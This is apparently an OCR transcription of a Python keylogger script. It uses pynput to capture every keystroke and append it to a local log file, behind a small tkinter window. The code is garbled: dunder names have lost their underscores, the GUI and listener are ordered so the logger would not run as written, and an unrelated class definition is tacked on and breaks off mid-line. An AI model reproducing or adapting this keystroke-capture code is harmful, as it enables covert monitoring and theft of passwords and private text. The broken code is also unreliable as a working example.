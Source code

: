 #keylogger
#python keylogger using tkinter for user interface.
from pynput import keyboard
from tkinter import *
import tkinter as tk
from tkinter import ttk
from tkinter.messagebox import showinfo


class App(tk.Tk):
  def init(self):
    super().init()

    # configure the root window
    self.title('Python keylogger')
    self.iconbitmap(r"C:\Users\Carft\Desktop\IMG.ico")
    self.geometry('400x110')

    # label
    self.label = ttk.Label(self, text='Activate key logger To disable it escape key on your keyboard')
    self.label.pack()

    # button
    self.button = ttk.Button(self, text='Click Me')
    self.button['command'] = self.button_clicked
    self.button.pack()

  def button_clicked(self):
    showinfo(title='Information', message='It is now active!')

if name == "main":
  app = App()
  app.mainloop()

#Variable count and variable keys
count, keys = 0, []
#Function to save to a TXT file
def log_2_file(keys):
    with open("keylogger.log", "a") as log_file:
        for key in keys:
            log_file.write(str(key) + "\n")
            log_file.flush()
        log_file.write("\n")
#Function to add key presses to file
def key_pressed(key):
    global keys, count

    keys.append(str(key))
    count += 1

    if count == 10:
        log_2_file(keys)
        count, keys = 0, []
#Function Released to end the Program 
def key_released(key):
    if key == keyboard.Key.esc:
        return False
# loop
with keyboard.Listener(on_press=key_pressed, on_release=key_released) as loop:
    loop.join()

class Letters: 
    def init(self, name, roll): 
        self.name = name 
        self.roll = roll

# creating list
list = [] 

# appending instances to list 
list.append( Letters('Akash', 2) )
list.append( Letters('Deependra', 40) )
list.append( Letters('Reaper', 44) 
